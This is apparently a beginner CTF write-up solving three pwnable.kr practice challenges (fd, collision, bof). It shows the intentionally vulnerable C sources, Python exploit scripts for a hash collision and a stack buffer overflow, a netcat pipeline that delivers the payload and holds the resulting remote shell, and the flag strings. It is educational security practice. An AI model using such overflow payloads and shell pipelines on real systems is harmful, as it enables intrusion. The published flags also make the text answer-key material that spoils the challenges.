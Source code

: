 # The Write Up for Toddler's Bottle Level

## Introduction

This is the first level of the [pwnable.kr](http://pwnable.kr/) practices. All in all, the problems in this level provide a very good introduction to CTF beginners.

-
### fd

In the Linux environment, file descriptor (FD), which is an unsigned integer,is used in FILE I/O. In the header file \<unistd.h\>:

	0 is STDIN_FILENO, which is the standard input.
	1 is STDOUT_FILENO, which is the standard output.
	2 is STDERR_FILENO, which is the standard error.

The vulnerable c source code is followed.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
``` 

If argv[1] is set as 4660 (0x1234), the variable fd will be 0, which is the standard input. And then, we just got the flag when we input `LETMEWIN` on the screen.

-

`mommy! I think I know what a file descriptor is!!`

-

### collision

The design of a hash function should consider the collision. In this task, the hash function is a simple sum function. The source code is followed.

```
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
	int* ip = (int*)p;
	int i;
	int res=0;
	for(i=0; i<5; i++){
		res += ip[i];
	}
	return res;
}

int main(int argc, char* argv[]){
	if(argc<2){
		printf("usage : %s [passcode]\n", argv[0]);
		return 0;
	}
	if(strlen(argv[1]) != 20){
		printf("passcode length should be 20 bytes\n");
		return 0;
	}

	if(hashcode == check_password( argv[1] )){
		system("/bin/cat flag");
		return 0;
	}
	else
		printf("wrong passcode.\n");
	return 0;
}
```

The destination hash value is 0x21DD09EC, which should be the sum of five unsigned 32bit integers. The integers should not contain '\x00' byte. So that we chose numbers as followed python code, which is stored in the path `/tmp/ex.py` and then print it.

```
#!/usr/bin/env python
import sys

"""
5 32bit integer:
0x01010101
0x01010101
0x01010101
0x01010101
0x1dd905e8
sum: 0x21DD09EC
"""
val = '\x01\x01\x01\x01'*4+'\xe8\x05\xd9\x1d'

sys.stdout.write(val)
```

Then this command will show us the flag.

```
./col `python /tmp/ex.py`
```

-

`daddy! I just managed to create a hash collision :)`

-

### bof

This is a basic buffer overflow task, but the difficulty may be existed in comunication to the server. If you receive the following message

`*** stack smashing detected ***: /home/bof/bof terminated`

Please just try shell command in this way in your local shell:

``
(python ex.py ; cat - )  |  nc pwnable.kr 9000
``

The command `cat -` will receive response of the new shell, and make sure the system() will not finish too quick.

The vulnerable source code is followed.

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

And the content of the ex.py is followed.

```
#!/usr/bin/env python

import sys

PRE="A"*0x34
SIGN='\xbe\xba\xfe\xca'
OUT=PRE+SIGN
print(OUT)
```

It maybe a little bit difficult to calaculate the distant between the address of `key` and the address of `overflowme`. The easies way is to differ two address of them in GDB. The distant is 0x34 in this case.

The flag is followed.

-
`daddy, I just pwned a buFFer :)`

-
